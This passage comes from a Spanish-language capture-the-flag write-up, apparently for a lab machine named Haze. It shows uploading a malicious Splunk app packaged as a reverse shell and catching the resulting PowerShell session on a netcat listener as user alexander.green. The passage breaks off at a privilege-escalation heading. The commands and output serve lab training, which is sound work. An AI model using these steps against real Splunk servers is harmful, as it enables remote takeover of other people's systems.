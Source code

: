 Luego podemos cambiar la extensión del archivo a `.spl` para que funcione (lo probé sin hacer este paso de renombrarlo y también funciona)

~~~ bash
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
~~~

Ahora cargaremos nuestra app maliciosa en la sección `Install App From File`

![image-center](/assets/images/posts/haze-splunk-as-admin-2.png)
{: .align-center}


## Shell as `alexander.green`

Cuando hagamos clic en `Upload`, recibiremos una conexión por el puerto que tenemos a la escucha, será una consola como el usuario `alexander.green`

~~~ bash
rlwrap -cAr nc -lvnp 443   
listening on [any] 443 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.61] 53015

stty raw -echo; fg  

[1]  + 88609 continued  rlwrap -cAr nc -lvnp 443

PS C:\Windows\system32> whoami
haze\alexander.green
~~~


## Abusing `SeImpersonatePrivilege`

